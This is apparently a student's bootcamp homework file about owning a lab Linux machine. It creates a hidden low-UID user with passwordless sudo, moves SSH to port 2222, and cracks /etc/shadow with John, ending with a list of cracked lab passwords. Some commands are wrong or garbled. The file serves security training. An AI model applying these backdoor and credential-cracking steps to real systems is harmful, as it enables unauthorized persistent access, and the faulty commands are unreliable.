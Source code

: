 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - adduser sysd

2. Give your secret user a password: 
    - sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 444 sysd

4. Give your secret user the same GID:
   - usermod -g sysd 444

5. Give your secret user full `sudo` access without the need for a password:
   -  visudo
      ALL= (ALL) NOPASSWD: ALL

6. Test that `sudo` access works without your password:
Matching Defaults entries for sysd on scavenger-hunt:
   cat /etc/sudoers | grep -i sysd | awk '{ print $3 }'

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

   sudo nano /etc/sshd/sshd_config

    semanage port -a -t ssh_port_t -p tcp 2222

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su 

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su root
    john /etc/shadow > passwords.txt

    john passwords.txt
Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer   	(stallman)
freedom      	(babbage)
trustno1     	(mitnik)
dragon        	(lovelace)
lakers          	(turing)
passw0rd   	(sysadmin)
Goodluck!  	(student)
p4ssw0rd   	(sysd)
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

